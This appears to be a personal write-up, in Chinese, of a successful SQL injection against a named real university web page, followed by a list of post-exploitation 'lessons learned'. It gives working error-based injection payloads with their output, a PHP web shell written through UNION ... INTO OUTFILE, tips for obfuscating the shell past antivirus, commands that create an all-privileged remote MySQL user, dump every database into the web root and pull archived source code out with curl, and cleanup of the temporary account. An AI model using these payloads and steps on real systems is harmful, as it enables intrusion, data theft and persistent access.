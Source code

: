```yaml
---
title: SQL Injection dce Success
description: SQL Injection dce Success
last_update:
  date: "2025-09-03T08:00:00+08:00"
---
```


## 前言

1. 目標: https://w2.dce.tku.edu.tw/plugins/validationEngine/check_member_id.php?fieldValue=%27

## 測試過程

1. `?fieldValue=%27`

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1
[null,false]
```

2. `fieldValue=%27%20OR%20%271%27%20=%20%271`

```
[null,false]
```

3. `fieldValue=%27%20AND%20updatexml(null,concat(0x7e,version(),0x7e),null)%20AND%20%271%27%20=%20%271`

```
XPATH syntax error: '~10.1.31-MariaDB~'
[null,false]
```

好快，三次就成功用 Error-Based SQLi 提取到資料

接下來請參考 [ZD-2025-01107](https://zeroday.hitcon.org/vulnerability/ZD-2025-01107)

mysqldump，root 使用者只能透過 localhost 連線，python 那個可以再試試看

## 學到的東西

1. 遞迴地列出目錄底下的副檔名分佈: `powershell "Get-ChildItem D:\xampp\htdocs -Recurse | Group-Object Extension | Sort Count -Desc | Select Name,Count"`

```
Name                  Count
----                  -----
.php                  26979
                      13624
.jpg                  12053
.png                   6500
```

2. 遞迴地排除指定副檔名的檔案，並打包成 zip 寫入本機目錄: `powershell "Get-ChildItem D:\xampp\htdocs -Recurse | Where {$_.Extension -notin '.jpg','.png','.gif','.svg','.pdf','.xls','.doc','.ttf','.js','.css','.less','.scss'} | Compress-Archive -Dest D:\xampp\htdocs\core.zip"`

3. 將指定目錄底下的 .php 檔案打包成 zip 寫入本機目錄: `powershell Compress-Archive -Path "D:\xampp\htdocs\*.php" -DestinationPath "D:\xampp\htdocs\php_files.zip"`

4. 使用 curl 下載檔案: `curl --output php_files.zip https://w2.dce.tku.edu.tw/php_files.zip -v`

5. 尋找環境變數底下的執行檔: `where mysql`

6. Windows + XAMPP 的架構，可在 `D:\xampp\mysql\bin` 找到 `mysql.exe` 跟 `mysqldump.exe`

7. `SELECT user()` => `root@localhost`

8. `SELECT @@basedir` => `D:\xampp\mysql`

9. `SELECT @@datadir` => `D:\xampp\mysql\data`

10. UNION 搭配上傳檔案:

`sql
UNION SELECT '<?php system($_GET["cmd"]);?>' INTO OUTFILE 'D:/xampp/htdocs/shell.php'
UNION SELECT '<?php system($_GET[cmd]);?>' INTO OUTFILE 'D:/xampp/htdocs/shell.php'
`

UNION 前後的欄位數量還是得匹配，才會成功執行

11. 一般的防毒軟體都可以偵測到上面兩種 php 檔案（會被歸類到惡意程式），所以可以加一些垃圾程式碼跟註解來混淆

```php
<?php $host = "localhost"; $username = "root"; system($_GET["cmd"]); ?>
```

12. 也可以用 `<?php echo exec($_GET[cmd]);?>`

13. 直接用 CMD 新增 MySQL 使用者: `D:\xampp\mysql\bin\mysql.exe -u root -p"password" -e "CREATE USER 'tempdump'@'%' IDENTIFIED BY 'temp_password'; GRANT ALL ON *.* TO 'tempdump'@'%';"`

- 要記得 -p 後面不能有空格，這樣才不會跳出輸入框
- `-e "SQL Syntax Here; Other SQL Syntax Here;"`
- `'tempdump'@'%'` => `'username'@'hostname'` => 允許該使用者透過任何主機進行連線
- `GRANT ALL ON *.*` => `database.table` => 允許所有 database 底下的所有 table

14. 使用 mysqldump 匯出所有 databases 的資料 as .sql 檔案: `D:\xampp\mysql\bin\mysqldump.exe -u tempdump -p"temp_password" --all-databases > D:\xampp\htdocs\alldb.sql`

15. 刪除臨時帳號: `D:\xampp\mysql\bin\mysql.exe -u root -p"password" -e "DROP USER 'tempdump'@'%'; FLUSH PRIVILEGES;"`

16. CMD 的 ls:

- `dir`
- `dir D:\xampp`

17. CMD 的 rm:

- `del file.php`
- `del D:\xampp\htdocs\file.php`

18. CMD 的 cat:

- `type file.php`
- `type D:\xampp\htdocs\file.php`

19. powershell 感覺必學，功能太強大了

20. CMD 的指令 `systeminfo`

21. CMD 的指令 `ipconfig /all`

22. CMD 的指令 `arp -a` (Address Resolution Protocol)

```
介面: xxx.yy.zzz.40 --- 0x6
  網際網路網址          實體位址               類型
  xxx.yy.zzz.6          aa-bb-cc-dd-ee-ff     動態
  xxx.yy.zzz.8          bb-cc-dd-ee-ff-aa     動態
```
